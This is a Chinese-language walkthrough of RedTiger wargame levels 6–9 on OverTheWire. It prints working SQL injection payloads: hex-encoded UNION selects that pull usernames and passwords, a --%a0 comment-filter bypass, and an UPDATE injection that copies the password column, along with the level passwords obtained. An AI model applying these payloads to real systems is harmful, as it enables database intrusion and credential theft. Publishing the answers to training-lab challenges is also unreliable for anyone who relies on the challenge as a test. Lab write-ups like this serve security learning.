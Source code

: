 ```bash
http://redtiger.labs.overthewire.org/level6.php
?user=0 union select 1,'union select 1,username,3,password,5 from level6_users where status=1#,3,4,5 
```
转换成十六进制
```bash
http://redtiger.labs.overthewire.org/level6.php
?user=0 union select 1,0x27756E696F6E2073656C65637420312C757365726E616D652C332C70617373776F72642C352066726F6D206C6576656C365F7573657273207768657265207374617475733D3123,3,4,5 
```
看别下一关的：keep_in_mind_im_not_blind
# level 7
过滤了挺多的,输入’得到报错语句
```bash
An error occured!:
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '%' OR text.title LIKE '%'%')' at line 1

SELECT news.*,text.text,text.title FROM level7_news news, level7_texts text WHERE text.id = news.id AND (text.text LIKE '%'%' OR text.title LIKE '%'%')
```
从报错语句中可以看出后台的查询语句。开始构造语句绕过，注释符，限制挺多的，一个个尝试，发现--%a可以绕过
获得显示位
```bash
search=search=1%') union select 1,2,3,4 --%a0&dosearch=search%21
```
最终
```bash
search=search=1%') union select 1,2,autor,4 from level7_news --%a0&dosearch=search%21
```
下一关的：no_pernel_kanic_on_the_titanic

# level8
在email处，输入’成功报错，其他处正常，报错语句为
```bash
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '12345\'', age = '25' WHERE id = 1' at line 3 Username: 
```
大概 update table set 的更新语句。
如果update语句中有a=b这样的语句就会将当前记录的b的值赋值到a.

最终payload
```bash
email=hans%40localhost',name=password,icq='&name=Hans&icq=12345&age=25&edit=Edit
```
下一关：cybercyber_vuln
# level9
在留言框中输入’会出现报错
```bash
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '''')' at line 6Autor: 
```
尝试用括号,
